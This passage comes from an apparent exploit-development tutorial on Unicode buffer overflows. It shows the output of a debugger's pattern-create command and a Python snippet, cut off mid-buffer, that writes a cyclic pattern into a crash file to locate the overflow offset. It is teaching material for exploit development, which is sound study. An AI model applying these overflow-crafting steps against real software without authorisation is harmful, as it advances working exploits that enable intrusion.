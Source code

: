 <p align="center"><img src="/images/basics-of-exploit-development-4-unicode-overflows/Pattern-Create-5k.PNG"/></p>    
<p align="center"><i>Output of ERC --Pattern c 5000.</i></p>

We can now add this into our exploit code either directly from the debugger or from the Pattern_Create_1.txt file in our working directory to give us exploit code that looks something like the following.
```
f = open("crash-2.txt", "wb")  
  
buf = b""  
buf += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"  
buf += b"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"  
buf += b"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"  
buf += b"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"  
buf += b"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"  
buf += b"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"  
buf += b"r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"  
buf += b"5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4"  
buf += b"Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3B"  
buf += b"a4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd"  
buf += b"3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2"  
buf += b"Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1B"  
```